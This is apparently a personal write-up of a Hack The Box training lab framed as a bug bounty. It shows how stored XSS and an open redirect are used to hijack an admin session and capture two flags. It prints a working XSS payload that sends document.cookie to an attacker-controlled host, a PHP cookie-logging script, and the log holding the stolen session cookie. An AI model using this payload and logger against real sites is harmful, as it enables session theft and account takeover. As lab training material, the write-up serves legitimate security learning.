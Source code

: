 ```yaml
---
sticker: emoji//1f512
---
```

You are currently participating in a bug bounty program.

- The only URL in scope is `http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
    - Email: heavycat106
    - Password: rocknrol
- Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

![[Pasted image 20250219131413.png]]
# First Question
---
Let's begin by checking the URL:

![[Pasted image 20250219135123.png]]

We can `Save`, `Share`, `Change Visibility` and `Delete`, we can begin by testing if the parameters are injectable to XSS:

![[Pasted image 20250219135255.png]]

Now, let's share:

![[Pasted image 20250219135309.png]]

There it is, it seems like the `Country` parameter is vulnerable to XSS, knowing this, we can craft a payload to get the admin credentials:

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<TUN0IP>:PORT/index.php?c=' + document.cookie;"></video>
```

Next, create a `index.php` file with the following contents in it:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

Let's start the server:

```php
php -S IP:PORT
```

Now, once we've done this, in order to simulate that the admin user's visited the site, we need to go back and view the other endpoint:

```
http://minilab.htb.net/submit-solution
```

If we visit this, the following happens:

![[Pasted image 20250219135805.png]]

So, we got an `Open Redirect`, we need to specify `?url=` and submit the URL we want to redirect too, we can do the following:

```http
minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```

And, we'll see the following in our php server:

```log
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Accepted
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 [302]: GET /index.php?c=auth-session=s%3A5IchvLZHGiNrCoU0u1Swpgdlq6WWWBJh.%2BeZAaKIbOJPi3GGw%2BW8A3r0%2Bjdb%2B%2FsVawbUxIB8oUdU
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Closing
```

If we check the site, we can see this:

![[Pasted image 20250219140213.png]]

It was indeed the admin user and we got the `auth-session` cookie, we can now authenticate as admin:

![[Pasted image 20250219140807.png]]

If we refresh the page:

![[Pasted image 20250219140815.png]]

We are now admin user, let's make it public:

![[Pasted image 20250219140839.png]]

If we go to share, we can see this:

![[Pasted image 20250219140922.png]]

We get the first flag, also, the yellow icon that says `Flag2`, downloads the pcap file for the next question, first flag is:

```
[YOU_ARE_A_SESSION_WARRIOR]
```

# Second Question
---

Now, let's open the pcap file:

![[Pasted image 20250219142017.png]]

We can filter:

![[Pasted image 20250219142255.png]]

We can see it selects the `Get /?redirect_uri` packet, if we open it, we can see this:

![[Pasted image 20250219142323.png]]

We got our flag:

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

![[Pasted image 20250219142344.png]]

